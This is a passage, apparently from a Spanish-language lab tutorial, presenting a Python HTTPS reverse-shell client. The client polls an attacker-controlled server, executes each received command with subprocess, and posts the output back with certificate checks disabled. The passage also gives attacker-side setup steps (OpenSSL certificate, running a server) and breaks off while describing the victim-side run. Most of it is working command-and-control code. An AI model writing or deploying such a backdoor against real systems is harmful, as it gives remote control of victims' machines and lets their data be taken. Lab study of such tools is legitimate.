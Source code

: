 Guarda este archivo como `https_client.py`:

```python
# https_client.py
import requests
import subprocess
import time

server = "https://192.168.1.10:8443"  # Cambia a la IP del atacante
verify_ssl = False  # Ignora certificado autofirmado

while True:
    try:
        r = requests.get(server, verify=verify_ssl)
        comando = r.text.strip()

        if comando.lower() == "exit":
            break

        resultado = subprocess.getoutput(comando)
        print(f"[+] Ejecutando: {comando}")
        requests.post(server, data=resultado.encode(), verify=verify_ssl)

    except Exception as e:
        print(f"[!] Error de conexión: {e}")

    time.sleep(5)
```

> ⚠️ El cliente ignora la verificación SSL para aceptar el certificado autofirmado. En producción, eso es peligroso, pero **en laboratorio es aceptable**.

---

### 🔧 Paso a paso para probarlo

#### 🔹 En la máquina atacante (Kali, por ejemplo):

1. Crea el certificado SSL:

   ```bash
   openssl req -x509 -newkey rsa:2048 -keyout key.pem -out cert.pem -days 365 -nodes
   ```

2. Ejecuta el servidor:

   ```bash
   python3 https_server.py
   ```

---

#### 🔹 En la máquina víctima:

1. Edita la IP del atacante en `https_client.py`
2. Ejecuta el cliente:
